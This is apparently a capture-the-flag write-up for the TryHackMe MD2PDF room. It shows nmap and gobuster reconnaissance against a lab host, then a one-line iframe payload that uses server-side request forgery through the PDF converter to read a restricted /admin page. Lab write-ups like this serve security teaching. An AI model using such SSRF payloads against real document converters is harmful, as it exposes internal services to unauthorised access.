 # MD2PDF

In this challenge we have a website that allow us to convert markdown file to pdf file.
![page](JPEG)

## Reconnaissance
First of all, let's do the enumeration for all open port
```bash
──(djumanto㉿localhost)-[~/Documents/TryHackMeNew/TryHackMe/MD2PDF]
└─$ nmap -sV -sC -oN nmap/initials 10.10.244.196  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 13:47 WIB
WARNING: Service 10.10.244.196:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 10.10.244.196
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 adc5b4a56539d0199ff2ec595aebc70d (RSA)
|   256 baaa15913ccb83722b9986a652b1e7d2 (ECDSA)
|_  256 756c419f275dda3445b72a7baabeeee6 (ED25519)
80/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2660
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="./static/codemirror.min.css"/>
|     <link
|     rel="stylesheet"
|     href="./static/bootstrap.min.css"/>
|     <title>MD2PDF</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">MD2PDF</span></a>
|     </div>
|     </nav>
|     <!-- Page Content -->
|     <div class="container">
|     <div class="">
|     <div class="card mt-4">
|     <textarea class="form-control" name="md" id="md"></textarea>
|     </div>
|     <div class="mt-3
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
```
Well, it seems that we able to access via http and ssh. But since we don't have any information about either username, password, or private key, the next thign i would do is directory brute.
```bash
sudo gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.24
[sudo] password for djumanto: 
Sorry, try again.
[sudo] password for djumanto: 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.196/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              py,ssh,php,html,js
[+] Timeout:                 10s
===============================================================
2023/04/30 13:57:36 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
/convert              (Status: 405) [Size: 178]
Progress: 39880 / 525990 (7.58%)
``` 

we unable to access the admin page
![admin]()

And convert is endpoint for converting our markdown file
![convert]()

Tags for this challenge is XSS and SSRF. So what cross into my mind was, what if we able to print the content of **admin** page. Since it was processed on the server, then we will able to access the content of **/admin** using iframe. Let's just get into it.
```bash
<iframe src="http://localhost:5000/admin"> </iframe>
```
![retrieve-trial]()

There you go

![flag]()
